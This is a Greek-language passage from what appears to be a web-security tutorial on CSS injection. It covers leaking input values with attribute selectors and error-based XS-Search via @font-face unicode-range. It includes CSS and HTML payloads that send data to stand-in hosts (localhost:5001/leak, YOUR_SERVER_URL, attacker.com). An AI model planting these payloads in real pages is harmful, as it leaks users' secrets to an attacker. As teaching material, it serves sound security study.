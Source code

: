 Μπορείτε να βρείτε τον αρχικό [**κώδικα του Pepe Vila για να εκμεταλλευτείτε αυτό εδώ**](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) ή μπορείτε να βρείτε σχεδόν τον [**ίδιο κώδικα αλλά με σχόλια εδώ**.](./#css-injection)

> [!NOTE]
> Το script θα προσπαθήσει να ανακαλύψει 2 χαρακτήρες κάθε φορά (από την αρχή και από το τέλος) επειδή ο επιλεγέας χαρακτηριστικών επιτρέπει να γίνονται πράγματα όπως:
>
> ```css
> /* value^=  για να ταιριάζει με την αρχή της τιμής*/
> input[value^="0"] {
>   --s0: url(http://localhost:5001/leak?pre=0);
> }
>
> /* value$=  για να ταιριάζει με το τέλος της τιμής*/
> input[value$="f"] {
>   --e0: url(http://localhost:5001/leak?post=f);
> }
> ```
>
> Αυτό επιτρέπει στο script να διαρρεύσει το μυστικό πιο γρήγορα.

> [!WARNING]
> Μερικές φορές το script **δεν ανιχνεύει σωστά ότι το πρόθεμα + επίθημα που ανακαλύφθηκε είναι ήδη η πλήρης σημαία** και θα συνεχίσει προς τα εμπρός (στο πρόθεμα) και προς τα πίσω (στο επίθημα) και σε κάποιο σημείο θα κολλήσει.\
> Μην ανησυχείτε, απλώς ελέγξτε την **έξοδο** γιατί **μπορείτε να δείτε τη σημαία εκεί**.

### Άλλοι επιλεγείς

Άλλοι τρόποι πρόσβασης σε μέρη του DOM με **CSS selectors**:

- **`.class-to-search:nth-child(2)`**: Αυτό θα αναζητήσει το δεύτερο στοιχείο με την κλάση "class-to-search" στο DOM.
- **`:empty`** selector: Χρησιμοποιείται για παράδειγμα σε [**αυτή τη γραφή**](https://github.com/b14d35/CTF-Writeups/tree/master/bi0sCTF%202022/Emo-Locker)**:**

```css
[role^="img"][aria-label="1"]:empty {
background-image: url("YOUR_SERVER_URL?1");
}
```

### XS-Search βασισμένο σε σφάλματα

**Αναφορά:** [CSS based Attack: Abusing unicode-range of @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC by @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

Η γενική πρόθεση είναι να **χρησιμοποιήσετε μια προσαρμοσμένη γραμματοσειρά από ένα ελεγχόμενο endpoint** και να διασφαλίσετε ότι **το κείμενο (σε αυτή την περίπτωση, 'A') εμφανίζεται με αυτή τη γραμματοσειρά μόνο αν ο καθορισμένος πόρος (`favicon.ico`) δεν μπορεί να φορτωθεί**.
```html
<!DOCTYPE html>
<html>
<head>
<style>
@font-face {
font-family: poc;
src: url(http://attacker.com/?leak);
unicode-range: U+0041;
}

#poc0 {
font-family: "poc";
}
</style>
```